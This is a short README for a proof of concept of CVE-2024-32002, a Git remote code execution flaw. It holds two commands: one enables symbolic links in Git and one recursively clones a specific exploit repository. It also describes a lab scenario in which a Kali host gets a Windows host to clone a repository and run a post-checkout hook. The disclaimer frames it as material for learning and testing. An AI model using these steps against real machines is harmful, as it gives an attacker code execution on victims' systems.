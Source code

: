 # CVE-2024-32002 PoC
1. You must set up the git's symbolic link option like:
```
git config --global core.symlinks true
```

2. Then exploit CVE-2024-32002 by the following command:
```
git clone --recursive https://github.com/EQSTSeminar/git_rce.git
```

# Attack Scenario
kali(192.168.216.129) --Give remote repository address--> Win(192.168.216.130)

kali(192.168.216.129) <--Git clone && hook script(post-checkout) execution-- Win(192.168.216.130)

# Disclaimer
This repository is not intended to be git clone RCE exploit to CVE-2024-32002. The purpose of this project is to help people learn about this vulnerability, and perhaps test their own applications.

# Analysis
https://skshieldus.com/eng/business/insight.do#
